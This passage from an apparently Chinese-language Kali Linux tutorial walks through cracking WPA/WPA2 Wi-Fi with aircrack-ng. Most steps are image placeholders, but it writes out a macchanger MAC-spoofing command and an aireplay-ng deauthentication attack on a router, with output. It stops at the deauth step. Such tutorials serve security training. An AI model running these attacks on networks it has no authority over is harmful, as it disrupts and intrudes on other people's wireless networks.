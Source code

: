 使用 aircrack-ng 破解 WPA/WPA2 无线网络的具体操作步骤如下所示。

（1）查看无线网络接口。执行命令如下所示：

![288-01](img/00440.jpg)

（2）停止无线网络接口。执行命令如下所示：

![288-02](img/00441.jpg)

（3）修改无线网卡 MAC 地址。执行命令如下所示：

```
root@kali:~# macchanger --mac 00:11:22:33:44:55 wlan0
Permanent MAC: 00:c1:40:76:05:6c (unknown)
Current   MAC: 00:c1:40:76:05:6c (unknown)
New       MAC: 00:11:22:33:44:55 (Cimsys Inc) 
```

（4）启用无线网络接口。执行命令如下所示：

![288-03](img/00442.jpg)

（5）捕获数据包。执行命令如下所示：

![289-01](img/00443.jpg)

（6）对无线路由器 Test 进行 Deauth 攻击。执行命令如下所示：

```
root@kali:~# aireplay-ng --deauth 1 -a 14:E6:E4:AC:FB:20 -c 00:11:22:33: 44:55 mon0
17:50:27 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
17:50:30 Sending 64 directed DeAuth. STMAC: [00:11:22:33:44:55] [12|59 ACKs] 
```
